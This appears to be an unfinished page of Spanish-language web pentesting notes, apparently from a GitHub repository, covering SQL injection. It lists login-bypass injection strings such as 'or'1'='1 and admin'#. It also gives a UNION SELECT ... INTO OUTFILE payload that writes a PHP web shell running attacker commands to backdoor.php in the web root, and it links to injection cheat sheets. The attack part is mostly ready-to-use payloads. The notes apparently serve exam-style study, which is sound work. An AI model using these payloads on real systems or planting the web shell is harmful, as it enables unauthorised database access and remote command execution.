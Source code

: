 <div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Cookies</div>
</div>

//TODO

<h2><b>Explotación de vulnerabilidades en aplicaciones web</b></h2>

<h3><b>Ataques desde el lado del servidor</b></h3>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Inyección SQL</div>
</div>

Este tipo de ataques se da cuando una entrada que se encuentra conectada con una base de datos no está filtrada adecuadamente, provocando que el código SQL se interpretado y se consiga ejecutar consultas SQL. 

¿Dónde se suelen encontrar?

En buscadores, parámetros, filtros, paneles de login, ... en definitiva, toda entrada que realice una consulta a la base de datos para la extracción, inserción o actualización de información.

Según la consulta que se explote, esta explotación será más fácil o más laboriosa.

**Pruebas básicas**

~~~
'or'1'='1
'and'1'='1
'or'1'='1'-- -
'or'1'='1'#
admin'#
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
admin\'-- -
~~~

**Subida de un fichero malicioso**

~~~
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
~~~

**Cheatsheets**

[https://websec.wordpress.com/tag/sql-filter-bypass/](https://websec.wordpress.com/tag/sql-filter-bypass/)

[https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md)

//TODO

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Inyección de comandos</div>
</div>
